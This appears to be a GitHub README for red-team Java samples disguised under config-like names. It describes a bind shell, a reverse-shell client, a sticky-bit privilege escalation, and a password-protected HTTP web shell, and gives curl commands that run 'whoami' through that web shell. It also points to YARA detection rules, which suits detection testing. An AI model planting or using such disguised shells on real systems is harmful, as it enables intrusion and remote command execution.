 #JAVA SHEBANG SAMPLES

Some samples that uses java scripts for red teaming. Uploaded to VT to check out detections:

catalina.sn:
![Image of catalina](https://github.com/akat12/Java-ShebangSamples/images/catalina.png)

servers.xml:
![Image of servers](https://github.com/akat12/Java-ShebangSamples/images/server_xml.png)

modulez.xml:
![Image of modulez](https://github.com/akat12/Java-ShebangSamples/images/modulez_xml.png)

SampleApp.xml:
![Image of sampleapp](https://github.com/akat12/Java-ShebangSamples/images/Sample_app.png)

##Sample List
catalina.sn :- cmd echoer, use stickybits to escalate priveleges. no rshell
servers.xml  :- bind a TCP shell listening on port 6666.
modulez.xml :- client for TCP rshell. pass the ip and port in cmdline
SampleApp.xml :- Http listener shell. Default password is trebuchet. Usage example:
                 GET : curl -X GET "http://127.0.0.1:8089/examples/Sampleappz.jsp?huskarl=trebuchet&paladin=whoami"
                 POST : curl -X POST "http://127.0.0.1:8089/examples/Sampleappz.jsp" -d "huskarl=trebuchet&paladin=whoami"

The yara rules to detect these samples are listed in detection.
